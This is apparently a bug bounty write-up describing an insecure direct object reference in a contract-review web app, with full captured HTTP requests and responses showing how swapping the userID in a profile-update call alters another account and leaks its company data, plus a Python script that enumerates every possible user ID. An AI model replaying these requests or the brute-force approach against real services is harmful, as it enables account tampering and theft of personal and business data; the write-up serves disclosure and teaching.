 ```yaml
---
layout: post
title: Changing userID leads to Data leakage and Profile Update
categories: bug hunting 
---
```


In another bug bounty session of mine, I came across a bounty program of a "Contract Review" company.

In their web app, one could register with a first/last name, an email and their company's name (and a password ofc).

Upon trying to figure out how the web app works, I updated my profile by changing my first name from "vict0ni" to "vict0ni1337". I captured the request:

```
OPTIONS /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: */*
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: authorization,content-type
Origin: https://app.website.com
Connection: close
```
followed by:
```
PUT /users/5e335fafedd93a1f35b6ca27 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:
```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 13:43:35 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 948
Connection: close
Set-Cookie: __cfduid=db2571d1ac9e83a96ca3265b9a0bf1d4c1580996613; expires=Sat, 07-Mar-20 13:43:33 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3b4-QbbUm9x0qtqg3/Bqcixd7mbQgqw"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 560d8dc0581c4098-HAM

{"users":[{"contracts":[],"createdAt":1580425135972,"updatedAt":1580996613958,"id":"5e335fafedd93a1f35b6ca27","email":"vict0ni@bugcrowdninja.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"3measgw3gr1yjpgvddqn","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e335faeedd93a1f35b6ca26"}],"companies":[{"createdAt":1580425133542,"updatedAt":1580428552059,"id":"5e335faeedd93a1f35b6ca26","name":"BugBounty","seq":5119,"vatId":"","phone":"1337","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"zqpwr","referralExtraCredits":0,"subscription":{"id":"16A1DGRp7Up0s1Qu7","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e335faeedd93a1f35b6ca26/users","contracts":"/companies/5e335faeedd93a1f35b6ca26/contracts"}}]}
```
So I was making an OPTIONS request and then a PUT request with my personal userID ``5e335fafedd93a1f35b6ca27`` updating my first name (one could only change the first and last name).

I always make two accounts when testing a web app. I did the same thing for my second account, just in order to grab that userID. Then I thought what could happen if I used the userID of account B in a request to update the account A. So I did the exact same thing as described above, being authorized as a user of account A, but using the userID of account B:

```
PUT /users/5e3c8692f3d2c616c6ed78e9 HTTP/1.1
Host: clientapi.website.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en,en-US;q=0.7,de;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json; charset=utf-8
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2KyIjoiNWUzMzVmYWZlZGQ5M2UxZjM1YjZjYTI3IiwiaWF0IjoxNTgwNDk1MDQ3LCJleHAiOjE1NTM3MjQ5NTA0N30.LM8jJM46ZvFPwlzJ9hezXf_W0oOSpgvfpOastWU7UZA
Content-Length: 188
Origin: https://app.website.com
Connection: close

{"user":{"firstName":"vict0ni1337","lastName":"0x00sec","email":"vict0ni@bugcrowdninja.com","password":null,"dismissedGuides":{"contractHelpPopup":false},"company":"5e335faeedd93a1f35b6ca26"}}
```
resulting to this response:

```
HTTP/1.1 200 OK
Date: Thu, 06 Feb 2020 21:38:07 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 943
Connection: close
Set-Cookie: __cfduid=d78cefde78c34008ca49d162306b8fcfb1581025085; expires=Sat, 07-Mar-20 21:38:05 GMT; path=/; domain=.website.com; HttpOnly; SameSite=Lax
Access-Control-Allow-Origin: https://app.website.com
ETag: W/"3af-ctJNYxOVotnOZ8DYR4ejpainHVE"
Vary: Origin, Accept-Encoding
CF-Cache-Status: DYNAMIC
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
CF-RAY: 561044dd2b4fcd93-CDG

{"users":[{"contracts":[],"createdAt":1581024914019,"updatedAt":1581025085895,"id":"5e3c8692f3d2c616c6ad78e9","email":"yigoxa6599@jmail7.com","firstName":"vict0ni1337","lastName":"0x00sec","role":"admin","resetPasswordTokenExpires":0,"dismissedGuides":{"contractHelpPopup":false},"dripId":"5pjs1pjjwprphpkce0rj","deleted":false,"master":false,"lastLogoutDate":0,"company":"5e3c8690f3d2c616c6ed78e8"}],"companies":[{"createdAt":1581024911551,"updatedAt":1581024919638,"id":"5e3c8690f3d2c616c6ed78e8","name":"CompanyB","seq":5137,"vatId":"dummyVATID","phone":"1234567890","country":null,"employeeCount":"","singleReviewsAvailable":3,"monthlyReviewsAvailable":0,"referredByCode":"","referralCode":"plozx","referralExtraCredits":0,"subscription":{"id":"16BcmbRpl5Qvt1Lwv","planId":"website-basic","planName":"website Basic"},"emailInAddress":"","links":{"users":"/companies/5e3c8690f3d2c616c6ed78e8/users","contracts":"/companies/5e3c8690f3d2c616c6ed78e8/contracts"}}]}
```
So, by changing the userID to the account B's userID, I could update the account B's first and last name, grab it's mail, referral code, companyID, subscription plan, number of employees, phone number, the company's [VAT identification number](https://en.wikipedia.org/wiki/VAT_identification_number) etc., while being authorized as account A. With the referral code, a user could use it to gain $30 as a "gift" for getting referred by another user.

While that's all good, the userID of each account remains secret. There had to be some kind of MiTM attack to capture it and make a targeted attack. So I thought maybe I could generalize the attack, instead of targeting a single account.
By using dummy userIDs, in order to test the brute-force protection, I found out that the endpoint was vulnerable to brute-force attacks. Since the userID is following a certain pattern (a string of 24 hex characters), one could generate all the possible IDs and save them into a file with this python script:

```python
import itertools

string = '0123456789abcdef'
file = open('userIDs.txt', 'w')
for p in itertools.product(string, repeat=24):
	writing = ''.join(p) + '\n'
	file.write(writing)
file.close()
```

With enough computing power, an attacker could change the first/last name of all users and grab their account and company info.


Thanks for reading!